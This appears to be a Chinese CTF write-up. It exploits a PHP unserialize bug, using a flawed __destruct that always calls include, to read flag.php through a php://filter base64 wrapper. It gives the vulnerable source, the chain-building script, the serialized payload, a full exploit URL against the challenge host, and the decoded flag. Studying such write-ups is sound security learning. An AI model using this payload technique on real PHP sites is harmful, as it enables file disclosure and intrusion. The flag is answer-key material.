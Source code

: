 利用dirsearch扫描网站目录，扫到网站备份文件www.zip

![image-20240327202252400](image/image-20240327202252400.png)

下载之后发现源码存在反序列化

```
<?php
class r00t{
    public $username;
    public $file;
    public function __wakeup(){
        $this->username = "www";
    }
    public function __destruct(){
        if($this->username = "root"){
            include($this->file);
        }
    }
}
unserialize($_GET['code']); 
```

构造利用链，去读取扫到的flag.php文件内容

```
<?php
class r00t{
    public $username="root";
    public $file="php://filter/convert.base64-encode/resource=flag.php";
}
$a=new r00t();
echo serialize($a);
```

poc

```
O:4:"r00t":2:{s:8:"username";s:4:"root";s:4:"file";s:52:"php://filter/convert.base64-encode/resource=flag.php";}
```

获取flag

```
http://59.110.139.6:8000/wakeup.php?code=O:4:%22r00t%22:2:{s:8:%22username%22;s:4:%22root%22;s:4:%22file%22;s:52:%22php://filter/convert.base64-encode/resource=flag.php%22;}
```

![image-20240327202634171](image/image-20240327202634171.png)

base64解密

```
<?php
$flag = "flag{Really_do_not_want_to_get_up}";
```

![image-20240327202655842](image/image-20240327202655842.png)